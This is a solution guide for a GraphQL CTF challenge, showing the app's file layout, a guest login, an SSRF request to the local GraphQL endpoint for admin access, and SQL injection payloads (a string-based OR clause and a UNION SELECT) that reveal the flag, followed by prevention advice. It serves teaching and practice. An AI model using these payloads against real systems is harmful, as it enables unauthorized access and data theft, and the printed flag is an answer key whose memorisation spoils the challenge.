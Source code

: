 # GraphQL SQL Injection CTF Challenge - Solution Guide

## File Structure
```
/graphql-ctf-challenge/
├── app.js                 # Main application file
├── database.db            # SQLite database (created at runtime)
├── Dockerfile             # Docker configuration
├── docker-compose.yml     # Docker Compose configuration
├── .dockerignore          # Docker ignore file
├── package.json           # Node.js package configuration
├── public/                # Static files
│   ├── css/
│   │   └── style.css      # CSS styles
│   ├── index.html         # Home page
│   ├── login.html         # Login page
│   └── dashboard.html     # Dashboard page
└── README.md              # Challenge description and setup instructions
```

## Challenge Steps

### 1. Initial Access
1. Access the website and read the initial page.
2. Notice the login page and the hint to log in as "guest" with password "guest123".
3. Successfully log in as guest and access the dashboard.

### 2. Exploiting SSRF to Gain Admin Access
1. In the dashboard, notice the "Developer Notes" section that mentions a fetch utility: `/fetch?url=http://some-internal-service`.
2. This is a Server-Side Request Forgery (SSRF) vulnerability.
3. Exploit this by requesting: `/fetch?url=http://localhost:4000/graphql`
4. This will change your session to have admin privileges.

### 3. GraphQL Access and SQL Injection
1. Now with admin access, notice the Admin Panel section that appears on the dashboard.
2. Click "Access GraphQL" to access the GraphiQL interface at `/graphql`.
3. Explore the available queries:
   - `getUser(username: String)`
   - `getAllProducts`
   - `getProductById(id: Int)`

4. Identify SQL injection in the `getUser` query by trying:
```graphql
{
  getUser(username: "admin' OR '1'='1") {
    id
    username
    role
  }
}
```

5. Similarly, try SQL injection on `getProductById`:
```graphql
{
  getProductById(id: "-1 UNION SELECT 3, secret_info, 'description', 0 FROM product_secrets WHERE product_id = 3") {
    id
    name
    description
    price
  }
}

```

6. Discover the flag in the `secret_info` field of the "Security Device" product:
``` 
Spark{s0_M4ny_w4yss_t0_w1N!!!}
```

## Key Vulnerabilities
1. SSRF vulnerability in the `/fetch` endpoint
2. Improper access control to the GraphQL endpoint
3. SQL injection in GraphQL queries:
   - String-based in `getUser`
   - Integer-based in `getProductById`

## Prevention Techniques
1. Validate and sanitize all user inputs
2. Use prepared statements or parameterized queries
3. Implement proper access controls
4. Disable introspection in production GraphQL servers
5. Validate URLs in fetch operations
6. Implement network-level controls to prevent internal network access
